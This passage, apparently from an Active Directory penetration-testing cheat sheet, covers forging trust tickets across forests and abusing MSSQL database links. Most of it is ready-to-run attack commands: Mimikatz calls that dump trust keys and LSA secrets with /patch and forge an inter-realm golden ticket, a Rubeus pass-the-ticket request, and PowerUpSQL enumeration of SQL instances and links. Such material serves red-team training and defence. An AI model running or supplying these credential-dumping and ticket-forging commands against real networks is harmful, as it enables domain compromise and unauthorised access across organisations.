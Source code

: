 

#### **Trust Tickets**

_WUT IS DIS ?: If we have Domain Admin rights on a Domain that has Bidirectional Trust relationship with an other forest we can get the Trust key and forge our own inter-realm TGT._

The access we will have will be limited to what our DA account is configured to have on the other Forest!

Using Mimikatz:

```
#Dump the trust key
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

#Forge an inter-realm TGT using the Golden Ticket attack
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<OurDomain> /sid:  
<OurDomainSID> /rc4:<TrustKey> /service:krbtgt /target:<TheTargetDomain> /ticket:
<PathToSaveTheGoldenTicket>"'
```

Tickets -> .kirbi format

Then Ask for a TGS to the external Forest for any service using the inter-realm TGT and access the resource!

Using Rubeus:

```
.\Rubeus.exe asktgs /ticket:<kirbi file> /service:"Service's SPN" /ptt
```

#### **Abuse MSSQL Servers**

* Enumerate MSSQL Instances: `Get-SQLInstanceDomain`
* Check Accessibility as current user:

```
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

* Gather Information about the instance: `Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`
* Abusing SQL Database Links:\
  _WUT IS DIS?: A database link allows a SQL Server to access other resources like other SQL Server. If we have two linked SQL Servers we can execute stored procedures in them. Database links also works across Forest Trust!_

Check for existing Database Links:

```
#Check for existing Database Links:
#PowerUpSQL:
Get-SQLServerLink -Instace <SPN> -Verbose
     
#MSSQL Query:
select * from master..sysservers
```
